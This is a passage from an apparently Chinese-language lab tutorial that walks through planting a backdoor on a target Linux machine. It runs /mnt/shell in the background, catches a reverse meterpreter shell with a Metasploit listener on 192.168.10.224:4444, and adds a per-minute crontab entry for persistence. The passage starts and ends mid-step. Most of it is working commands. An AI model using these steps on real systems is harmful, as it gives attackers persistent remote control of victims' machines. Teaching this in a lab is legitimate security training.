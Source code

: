     ┌──(root㉿kali)-[~]
    └─# vim .ssh/config       //在.ssh目录下创建config文件并进行编辑
    ```
    - config文件中添加以下内容
    ```
    Host *
    HostkeyAlgorithms +ssh-rsa
    PubkeyAcceptedKeyTypes +ssh-rsa
    ```
  - 第四步：控制靶机，添加执行权限
    ```
    ls -l /mnt
    chmod 755 /mnt/shell
    ```
  - 第五步：控制靶机，后台运行后门程序
    ```
    /mnt/shell &
    ```
  - 第六步：kali中进入MSF，使用侦听脚本，建立连接
    ```
    ┌──(root㉿kali)-[~]
    └─# msfconsole -q
    msf6 > use exploit/multi/handler      //使用侦听程序
    [*] Using configured payload generic/shell_reverse_tcp

    msf6 exploit(multi/handler) > set lhost 192.168.10.224    //设置监听地址（监听的地址，本机地址）
    lhost => 192.168.10.224
    msf6 exploit(multi/handler) > set lport 4444      //设置监听端口
    lport => 4444
    msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/  reverse_tcp     //设置载荷
    msf6 exploit(multi/handler) > run     //运行
    ```
    - 如果远程连接不上，爆破多次执行/mnt/shell&
    - 进入反弹连接获取用户信息
      ```
      meterpreter >         //在这个目录下就能执行想执行的文件了
      ```
### 创建计划任务自动运行后门程序
#### 创建计划任务
- Linux crontab命令
  - crontab：计划任务，用来定期执行程序的命令
  - crontab -e：编辑计划任务
  - crontab -l：显示计划任务

  在靶机中执行
  ```
  crontab -l
  # m h dom mon dow command       //分 时 日 周 月 命令
   30 6 *   *   *   命令          //每天6点30分执行命令
   30 6 *   *   1-5 命令          //周1-5的六点三十分执行命令
   30 6 1   *   *   命令          //每月第一天六点三十分执行命令
   *  * *   *   *   命令          //每分钟执行一次命令
  ```
- 第一步：再靶机上创建计划任务
  - -e：执行文字编辑器来设定计划任务，内定文字编辑器是vi
  - EDITOR=vim：指定编辑器为vim
    ```
    EDITOR=vim crontab -e     //编写计划任务
    * * * * * /mnt/shell&
    ```
- 第二步：验证计划
    ```
    ┌──(root㉿kali)-[~]
    └─# msfconsole -q